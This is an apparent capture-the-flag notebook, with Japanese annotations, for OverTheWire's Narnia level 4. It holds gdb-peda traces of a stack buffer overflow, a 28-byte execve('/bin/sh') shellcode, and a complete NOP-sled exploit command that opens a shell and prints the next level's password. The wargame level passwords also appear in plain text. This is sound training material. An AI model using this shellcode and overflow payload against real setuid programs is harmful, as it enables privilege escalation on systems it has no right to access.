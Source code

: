 $ ssh -p 2226 narnia4@narnia.labs.overthewire.org
thaenohtai

gdb-peda$ x/20wx  0x80497e0
0x80497e0 <environ@@GLIBC_2.0>: 0xffffbfec

memset("DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-LQRQc6uH14", 0, 0x3b)


## ./narnia4 A\*300
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffc290 ("AAAAAAAAAA")
EDX: 0xffffbe2e ("AAAAAAAAAA")
ESI: 0xf7fab000 --> 0x1b1db0 
EDI: 0xf7fab000 --> 0x1b1db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffbe20 ('A' <repeats 24 times>)
EIP: 0x41414141 ('AAAA') <- EIP取れてる
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffbe20 ('A' <repeats 24 times>)
0004| 0xffffbe24 ('A' <repeats 20 times>)
0008| 0xffffbe28 ('A' <repeats 16 times>)
0012| 0xffffbe2c ('A' <repeats 12 times>)
0016| 0xffffbe30 ("AAAAAAAA")
0020| 0xffffbe34 ("AAAA")
0024| 0xffffbe38 --> 0xf7fab000 --> 0x1b1db0 
0028| 0xffffbe3c --> 0xf7ffdc04 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x41414141 in ?? ()
gdb-peda$ quit
~/ctf/OverTheW


gdb-peda$ b \*0x804852e
Breakpoint 2 at 0x804852e
gdb-peda$ c
Continuing.


A272回でSEVG

0xffffc190: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1b0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1c0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1d0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1e0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc1f0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc200: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc210: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc220: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc230: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc240: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc250: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc260: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc270: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc280: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffc290: 0x41414141  0x41414141  0x00004141


EIP: 0xbfc382c3

A272

$(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB")

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80 28bytes


272 - 28 = 244

$(python -c 'print "\x90" * 244 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xf0\xc1\xff\xff"')



## In remote
0xffffd7d0: 0x2f61696e  0x6e72616e  0x00346169  0x41414141
0xffffd7e0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd7f0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd800: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd810: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd820: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd830: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd840: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd850: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd860: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8c0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8d0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8e0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8f0: 0x41414141  0x00000000  0x00000000  0x00000000


narnia4@narnia:/etc/narnia_pass$ /narnia/narnia4 $(python -c 'print "\x90" * 244 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90\xd8\xff\xff"')
$ cat narnia5
faimahchiy
$ exit

リモートでのアドレスを調べて、そこら辺の範囲に遷移させればスライドしていき、シェルコードが実行される
